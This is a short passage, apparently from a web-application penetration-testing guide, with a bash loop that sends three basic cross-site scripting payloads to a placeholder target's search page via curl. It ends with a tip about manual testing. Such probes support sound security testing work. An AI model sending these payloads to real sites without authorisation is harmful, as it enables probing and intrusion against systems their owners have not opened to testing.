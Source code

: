 ### Quick XSS Testing
```bash
# Basic XSS payloads
for payload in "<script>alert(1)</script>" "<img src=x onerror=alert(1)>" "<svg onload=alert(1)>"; do echo "Testing: $payload"; curl "http://<target>/search.php?q=$payload"; done
```

Remember: Web application testing requires patience and creativity. Always test manually even after automated scans, as many vulnerabilities require context-specific exploitation!